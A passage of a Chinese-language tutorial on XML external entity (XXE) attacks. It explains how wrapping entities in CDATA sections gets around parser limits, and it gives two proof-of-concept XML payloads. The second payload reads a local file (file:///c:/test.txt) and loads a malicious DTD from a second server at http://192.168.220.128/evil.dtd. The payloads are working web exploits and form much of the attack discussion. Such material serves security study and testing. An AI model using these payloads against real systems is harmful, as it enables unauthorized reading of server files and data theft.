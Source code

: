 ![image-20211128152036135](XXE.assets/image-20211128152036135.png)

后使用base64解密可得结果

方法二：使用CDATA绕过 

某些文本，比如 JavaScript 代码，包含大量 "<" 或 "&" 字符。为了避免错误，可以将脚本代码定义为 CDATA。CDATA 部分中的所有内容都会被解析器忽略。

CDATA 部分由` "<![CDATA[" 开始，由 "]]>"` 结束。

关于 CDATA 部分的注释：

CDATA 部分不能包含字符串 "]]>"。也不允许嵌套的 CDATA 部分。

标记 CDATA 部分结尾的 "]]>" 不能包含空格或折行。

我们的思路就是把读取的文件放在CDATA中之后再调用，那么构造一个POC如下

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag
[<!ENTITY start
"<![CDATA[<!ENTITY % xxe SYSTEM "file:///c:/test.txt"> ]]>"
>]
% xxe;>
<user><username>&start;</username><password>admin</password></user>
```

发现抱错，因为xml 解析器有个限制：不能在内部 Entity 中引用，“PEReferences forbidden in internal subset in Entity ”指的就是禁止内部参数实体引用。

所以可以搭建第二个服务器，实现调用的外部的dtd文档

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % start "<![CDATA[">
<!ENTITY % go SYSTEM "file:///c:/test.txt">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://192.168.220.128/evil.dtd"> %dtd;
]> 
<user><username>&start;</username><password>admin</password></user>
```
